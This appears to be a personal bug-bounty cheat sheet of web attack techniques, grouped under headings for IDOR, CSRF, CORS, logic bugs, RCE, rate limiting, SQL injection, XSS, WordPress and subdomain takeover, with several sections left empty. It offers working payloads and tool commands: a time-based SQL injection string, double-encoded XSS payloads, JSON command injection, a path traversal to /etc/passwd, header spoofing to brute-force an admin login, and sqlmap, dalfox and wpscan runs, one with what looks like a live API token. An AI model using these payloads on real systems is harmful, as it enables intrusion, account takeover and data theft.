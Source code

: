<details>
	<summary>IDOR</summary>
	
    1- Look for id everywhere
    
    2- Play with hash/encoded values
    
    3- Change The ID's in the request 
    
    4- Upload the profile photo for another user
    
    5- Try change/View data of another user
    
    6- Do something with your email then change it in Burp

    7- Add parameter IDs to requests that don’t have them 

    8- Try replacing parameter names

    9- Try changing the requested file type 
    	GET /user_data/2341 --> 401 Unauthorized
	GET /user_data/2341.json --> 200 OK
    
    10- Try using an array {“id”:19} → {“id”:[19]}

    11- Wildcard ID /api/users/*

    12- check for session cookies if has httponly flag

    13- use the inspector of Burp Repeater to play with id's

    14- use https://jwt.io

    15- create two accounts and save both jwt data and try change between them

    16- detect each cookie and see where it being used

    17- Gather POST & GET and test every CRUD

    18- change HTTP method
	GET /users/delete/victim_id  ->403
	POST /users/delete/victim_id ->200

    19- 


 
  
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Broken Access Control</summary>

	1- Test some Graphql operations with different user roles and see what this operation do
 	2- Check the role of every user and try upgrade your role by urself
  	3- try any unauth behavior like :
   		- member delete admin
     		- member send invites using the invite request
       		- member outside the comapny try any action 
	------------------------------------------------
 	- Wildcard -> GET /users/id -> GET /users/*
	------------------------------------------------
	- Content-Type: application/xml 
	- Content-Type: application/json
	------------------------------------------------
 	- 




 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CSRF</summary>

	Generate POC using LazyCSRF in BurpSuite
	=================================================
	FIRST SCENARIO: 
  	1- Login as Attacker and intercept any function like change email, pass, logout...etc
   	2- Genereate CSRF poc with that reqeust
    	3- login as Victim in another browser
     	4- open the CSRF poc in victim browser if did the function then it's a bug
  	
   	=================================================
	SECOND SCENARIO: The Token is tied to non-session cookie
 		if the token tied to an attribute in the request 
 	1- intercept the request of user1 change email,username..etc
  	2- Genrate POC 
   	3- get the CSRF key and attribute value of user2
    	4- 

    	=================================================
   	- Remove the token and leave the parameter empty
  	- Try use another user CSRF token
   	- Change the request method to get and remove the token
    	- Add Ayhaga to the real CSRF token 
     	- Dynamic chars in CSRF token manipulate
	- try delete referrer
 	- Referrer: https://target.com/https://evil.com
  	

 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CORS</summary>

	- Try manipulate the origin header -> Origin:attacker.com or Origin:null or Origin:attacker.target.com or Origin:target.attacker.com
 		- If origin is reflected in response means the target is vuln to CORS

	- 
  
</details>


-----------------------------------------------------------------------------

<details>
	<summary>Logic Bugs</summary>
	
    1- Try change the price or quantity of item
    
    2- Multiple booking for one room
    
    3- Place order without verify stock level
    
    4- Use coupons or bounus more than one time
    
    5- Check the difference bettween Front-end & Burp request
    
    6- Try creating more than one from the same block 

    7- Check for all posible IF statements and try to bypass it

    8- A user gains access to restricted features they shouldn't have access to.

    9- Try access files after deletion using the link of this file 

    10- Make changes in the source code disabled -> enabled / hidden -> flex

    11- Delete comment with report https://shahjerry33.medium.com/business-logic-errors-a-new-look-3b18d9c2a12f

    12- 
      
		
</details>

-----------------------------------------------------------------------------

<details>
	<summary>HTTP Request Smuggling</summary>

	







 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>RCE</summary>

	1- Injection in json file 
 		{
   		   "username":" `touch ayfile.txt` ",
		   "password":"test"
		}
  	We establish a connection using ntcat then inject command in the json to get this connection
     --------------------------------------------------------------------------------------------------
     2- 

     
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Race Condition</summary>

    1- 
 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Rate Limit</summary>

 	rate limit 
	1- no rate limit on login page 
	2- no rate limit on internal password
	3- no rate limit on sending reset password link 
	4- no rate limit on OTP or 2FA => account takeover
	5- no rate limit on contact us page 
	6- no rate limit on comments 
	7- no rate limit on reports of comments
	8- no rate limit on port 22
 	9- no rate limit on create users account lead to massive accounts created
	
	------------
	bypass rate limit by adding headers 
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	------------------------------------------
	POST /login.php HTTP/1.1
	Host: target.com
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	
	username=admin&password=$fuzz$
	-------------------------------------------
	429 => 403 
	bypass rate limit 
	
	ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ"  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"`
	
	403 


</details>

-----------------------------------------------------------------------------


<details>
## <summary>check sql injection in php</summary>
    
    1- first let's gather parameters 
    # arjun -i php.txt | tee -a parameters.txt
    2- after knowing parameters like id then full url would be 
    https://example.com/file.php?id=*
    3- use sqlmap 
    # sqlmap -u "~~https://example.com/file.php?id=*~~" --dbs --banner --batch --random-agent
    
 </details>   


-----------------------------------------------------------------------------


    
<details>
## <summary>SQLI</summary>

    id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'

	username:’ — ‘/” — “
	password:’ — ‘/” — “
</details>


-----------------------------------------------------------------------------

<details>
	<summary>XSS</summary>

 
	
	dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
	dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 			Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 

	-----------------------------------------------------------------------------------------------
	
	echo "domain.com" | gau | kxss | grep ">"
	
	paramspider --domain domain.com
	paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
	
	echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
	
	-----------------------------------------------------------------------------------------------
	
	cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
	
	cat domain.txt | kxss

	-----------------------------------------------------------------------------------------------

	Double Decode :
 		%2527%2520onmouseover%253D%2527alert%25281%2529%2527%2520
   		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520autofocus%253D%2527
     		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520
       		%2527%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E

	-----------------------------------------------------------------------------------------------
  	- Click "Live chat" and send a chat message. 
	Itercept the request 
	edit message to <img src=1 onerror='alert(1)'>
	   		
    	-----------------------------------------------------------------------------------------------



</details>



------------------------------------------------------------------------------------------------------

<details>
## <summary>hacking WordPress</summary>
    
    
    wpscan --url [https://target.com](https://target.com/) --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
    wordpress usernames exposure :
    /wp-json/wp/v2/users
    /author-sitemap.xml
    /wp-content/debug.log
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    	
    /wp-login.php?action=register
    /wp-json/?rest_route=/wp/v2/users/
    /wp-json/?rest_route=/wp/v2/users/n

</details>

-----------------------------------------------------------------------------



<details>
	<summary>PHP</summary>
</details>



-----------------------------------------------------------------------------

<details>
	<summary>Subdomain Takeover</summary>

	- subjack -w <Subdomain List> -o results.txt -ssl -c fingerprints.json
 	- subzy 

   	
 
</details>

-----------------------------------------------------------------------------

